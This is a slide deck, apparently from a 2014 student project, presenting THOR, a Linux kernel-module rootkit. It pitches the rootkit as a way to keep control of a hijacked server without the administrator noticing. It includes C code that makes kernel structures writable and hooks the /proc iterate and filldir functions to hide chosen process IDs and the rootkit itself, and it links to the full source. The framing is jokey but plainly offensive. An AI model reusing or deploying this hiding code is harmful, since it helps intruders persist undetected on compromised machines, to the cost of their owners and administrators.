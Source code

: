 % THOR\
  The ~~Horrific~~ Hopefully Omnipotent Rootkit
% Alex Hirsch
  FraJo Haider
% 2014-12-01

## The Linux Kernel

\centerline{\includegraphics[width=300px]{gfx/kernel.png}} [^1]

[^1]: <http://sysplay.in/blog/linux-device-drivers/2013/02>

## Internals

\centerline{\includegraphics[width=280px]{gfx/kernel_map.png}} [^2]

[^2]: <http://en.wikipedia.org/wiki/Linux_kernel>

## Dafuq?

\centerline{\includegraphics[width=280px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[width=200px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presences**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[width=250px]{gfx/problems.jpg}}

## Problems

- little example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers (race
  conditions / undefined behaviour)
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## Example: new `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Injection `prochidder_init()`

```{.c .numberLines}
static int __init prochidder_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## Injection `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[width=150px]{gfx/qrcode.png}}

